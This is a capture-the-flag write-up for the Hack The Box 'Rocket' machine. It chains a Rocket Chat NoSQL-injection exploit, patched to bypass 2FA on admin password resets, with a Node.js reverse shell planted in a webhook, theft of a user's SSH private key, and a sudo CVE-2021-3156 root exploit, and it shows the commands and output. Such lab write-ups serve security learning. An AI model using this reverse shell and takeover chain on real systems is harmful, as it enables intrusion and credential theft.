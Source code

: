 # Rocket

```
Nmap scan report for rocket.htb (10.129.172.140)
Host is up (0.15s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Rocket Hosting
3000/tcp open  ppp?
```
On port 3000 we can see a Rocket Chat login portal.

As well described in [SonarSource blog](https://blog.sonarsource.com/nosql-injections-in-rocket-chat), Rocket Chat is vulnerable to a NoSQL injection. By resetting the password of a normal user, then a admin account it is possible to execute arbitrary commands through the administration interface.
The exploit can be found [here](https://www.exploit-db.com/exploits/49960).

This exploit needs a low priv user email and an admin email. Those emails can be found on the website port 80.

![Users email addresses](img/email.png "Users email addresses")

Here we will use `emmap@rocket.htb` (low priv user) and `ezekiel@rocket.htb` (admin user). In the current case the exploit needs to be modified to remove 2FA. We applied the following patch:

```python
def changingadminpassword(url,token,code):
	#payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"resetPassword\\",\\"params\\":[\\"'+token+'\\",\\"P@$$w0rd!1234\\",{\\"twoFactorCode\\":\\"'+code+'\\",\\"twoFactorMethod\\":\\"totp\\"}]}"}'
	payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"resetPassword\\",\\"params\\":[\\"'+token+'\\",\\"P@$$w0rd!1234\\",{\\"twoFactorCode\\":\\"\\",\\"twoFactorMethod\\":\\"totp\\"}]}"}'
[...]
def twofactor(url,email):
  [...]
  #return code
	return ""
```

```
(venv) Mon Jul 26 22:48:48 wil@pwn:~/htb/business_ctf/boxes/rocket$ python3 sploit.py -u emmap@rocket.htb -a ezekiel@rocket.htb -t http://rocket.htb:3000/
[+] Resetting emmap@rocket.htb password
[+] Password Reset Email Sent
Got: _
Got: _r
Got: _rn
Got: _rnZ
Got: _rnZc
Got: _rnZcF
Got: _rnZcF4
Got: _rnZcF4a
Got: _rnZcF4a2
Got: _rnZcF4a2J
Got: _rnZcF4a2JR
[...]
Got: _rnZcF4a2JRRP7xY_AGDxMjEOuKxKL-9XvYtAVHmhkO
[+] Got token : _rnZcF4a2JRRP7xY_AGDxMjEOuKxKL-9XvYtAVHmhkO
[+] Password was changed !
[+] Succesfully authenticated as emmap@rocket.htb
Got the code for 2fa: ices.totp is undefined :\n@:1:56\n@:1:49\n"}
[+] Resetting ezekiel@rocket.htb password
[+] Password Reset Email Sent
Got: n
Got: nO
Got: nOi
Got: nOi2
[...]
[+] Got token : nOi2zKQPCeLk-AJn3ApDl5JtzOtfnBn-SONT6oihZC0
[+] Admin password changed !
```

Once admin password changed we can login with username `admin` and password `P@$$w0rd!1234`.

We can add the following reverse shell on the `administration interface / integrations / web hook`:
```js
const require = console.log.constructor('return process.mainModule.require')();
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(80, "10.10.14.27", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

![RCE with the web hook](img/rce_admin.png "RCE with the web hook")

When hitting the Webhook URL the revshell is connecting back to us:

```
Tue Jul 27 00:41:51 wil@pwn:~/htb/business_ctf/boxes$ nc -nvlp 80
Listening on [0.0.0.0] (family 2, port 80)
Connection from 10.129.1.7 50358 received!
id
uid=1000(ezekiel) gid=1000(ezekiel) groups=1000(ezekiel)
```
We can grab ezekiel rsa key to get an fully operational shell:
```
cat /home/ezekiel/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAsEzrkmU/V0/a5EzaBR58XHHtnI7azu003705Pz+2Z+Q3fD9G+K/g
[...]
```

Once connected to ezekiel we can get user flag. We also noticed the sudo version is vulnerable to CVE-2021-3156.
The exploit we used can be found [here](https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156_one_shot).
```
ssh ezekiel@rocket.htb -i ezekiel_id_rsa

ezekiel@rocket:~$ cat user.txt 
HTB{th3_p4ssw0rd_r3s3t_api_1s_n0t_r0ck_s0l1d}

ezekiel@rocket:/tmp$ sudo -V
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
ezekiel@rocket:/tmp$ make
gcc exploit.c -o exploit
exploit.c: In function ‘main’:
exploit.c:75:5: warning: implicit declaration of function ‘execve’ [-Wimplicit-function-declaration]
   75 |     execve(argv[0], argv, env);
      |     ^~~~~~
mkdir libnss_X
gcc -g -fPIC -shared sice.c -o libnss_X/X.so.2
ezekiel@rocket:/tmp$ ./exploit
uid=0(root) gid=1000(ezekiel) groups=1000(ezekiel)
root@rocket:/tmp#
root@rocket:/tmp# cat /root/root.txt
HTB{4lw4ys_upgr4d3_y0ur_syst3ms}
```